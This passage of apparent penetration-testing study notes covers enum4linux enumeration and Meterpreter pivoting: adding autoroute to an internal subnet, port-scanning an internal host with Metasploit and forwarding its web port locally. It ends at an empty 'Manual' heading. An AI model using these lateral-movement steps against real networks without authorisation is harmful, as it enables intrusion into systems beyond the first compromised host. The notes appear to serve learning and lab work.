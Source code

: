 >[!quote]- Flags Binary
>![[Pasted image 20240122164510.png]]

- #### Enum4Linux:

```bash
# Enumeration on a specific IP.
export IP=xx.xx.xx.xx
enum4linux $IP
```

- #### Pivoting & Tunneling :
##### 1. Meterpreter : 

>[!tip]
>##### https://www.offsec.com/metasploit-unleashed/scanner-discovery-auxiliary-modules/

```bash
# We need to have access over one interface available and have meterpreter session.
meterpreter> ipconfig

				   Interface 12
		================================
		Name          : Network Device 0
		IPv4 Address  : 10.2.16.54
		IPv4 Netmask  : 255.255.240.0

meterpreter> run autoroute -s 10.2.16.0/20

		[+] Added a route to 10.2.16.0/255.255.240.0 via ...

meterpreter> run autoroute -p

					  Active Routing Table
		=============================================
		Subnet            Netmask            Gateway
		------            -------            --------
		10.2.16.0       255.255.240.0        Session 1

meterpreter> background
msf6> use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp)> set RHOST [Internal_Network_IP] # in this example : 10.2.19.17 
msf6 auxiliary(scanner/portscan/tcp)> set RPORT 1-100 # range of ports to scan.
msf6 auxiliary(scanner/portscan/tcp)> run

		[+] 10.2.19.17              -  10.2.19.17:80 - TCP OPEN

msf6 auxiliary(scanner/portscan/tcp)> sessions -i 1

meterpreter> portfwd add -l 31337 -p 80 -r 10.2.19.17 

# After doing the port forwarding we can access the port on our local (localhost if web app)
```
##### 2. Manual : 
